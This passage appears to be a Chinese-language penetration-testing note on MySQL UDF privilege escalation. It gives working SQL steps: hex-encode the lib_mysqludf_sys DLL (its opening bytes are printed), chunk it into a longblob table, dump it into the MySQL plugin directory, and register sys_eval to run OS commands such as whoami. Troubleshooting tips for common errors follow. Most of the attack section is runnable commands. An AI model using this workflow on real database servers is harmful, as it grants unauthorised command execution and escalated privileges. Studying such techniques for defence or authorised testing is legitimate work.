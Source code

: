             - ##### **16进制编码udf文件**

                - 可以使用自己的mysql

                - ```mysql
                    select hex(load_file('D:\\pentest_tool\\web渗透\\sql\\sqlmap\\data\\udf\\mysql\\windows\\64\\lib_mysqludf_sys.dll')) into dumpfile 'D:\\pentest_tool\\1.txt';
                    #输入和输出的文件的路径不能有.  不然后面就被当作文件名，而不是路径了
                    ```

            - payload有一万多个字节

                - ```
                    4D5A90000300000004000000FFFF0000B800000000000000400000000000000000000000000000000000000000000000000000000000000000000000E80000000E1FBA0E00B409CD21B8014CCD21546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F64652E0D0D0A2400000000000000677CBFDA231DD189231DD189231DD18904DBBF89211DD18904DBBC892A1DD18904DBAA89261DD189231DD0890F1DD189........................................................................................
                    ```

    - **将dll文件写入plugin目录,并且创建函数**

        - ##### **将16进制编码后udf文件使用dumpfile函数写入磁盘（outfile导出文件会在末尾写入新行且转义换行符，破坏二进制文件结构，dumpfile不会进行任何操作）。**

        - **由于不同环境下的mysql命令提示符可输入字符最大长度不同（win2003为8191，win10系统为65535），无法使用dumpfile一次性写入全部16进制字符，则需要将udf文件的16进制编码字符先进行切割，再拼接写入到一个表中，最后导出到目标系统。**

        - 注意：在进行16进制数据切割时，每段字符的长度要为4的倍数，2进制转为16进制使用取四合一法，如果位数不够会在最高位补0，补0后会破坏原始二进制文件的文件结构导致利用失败，这也是很多人此方法复现失败的原因。

        -  **随便选择一个数据库后，创建一个表**

        ```sql
        create table temp(data longblob);
        insert into temp(data) values (0xxxxxxxx);
        update temp set data = concat(data,0xxxxxxxxxxxxxx);
        update temp set data = concat(data,0xxxxxxxxxxxxxx);
        update temp set data = concat(data,0xxxxxxxxxxxxxx);
        update temp set data = concat(data,0xxxxxxxxxxxxxx);
        select data from temp into dumpfile "D:\\app\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll";
        
        
        #注册dll并执行系统命令
        create function sys_eval returns string soname 'udf.dll'; #创建函数sys_eval
        select * from mysql.func where name = 'sys_eval'; #查看创建的sys_eval函数
        select sys_eval('whoami'); #使用系统命令
        
        #dumpfile变量显示未声明，是因为secure_file_priv的值为null
        
        #执行select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll"; 时有可能会出现以下错误，因为当MySQL大于5.1时，默认是没有 lib\plugin 目录的。而 into dumpfile在写入文件时也不能创建文件夹，所以也就报错了：Can't create/write to file
        
        
        #ERROR 1125 (HY000): Function 'sys_eval' already exists
        提示sys_eval 函数已经存在，可能已经被利用过了，尝试直接调用函数。
        #2、提示sys_eval 函数已经存在，但无法利用
        尝试将udf提权相关的利用函数进行删除后重新创建
        
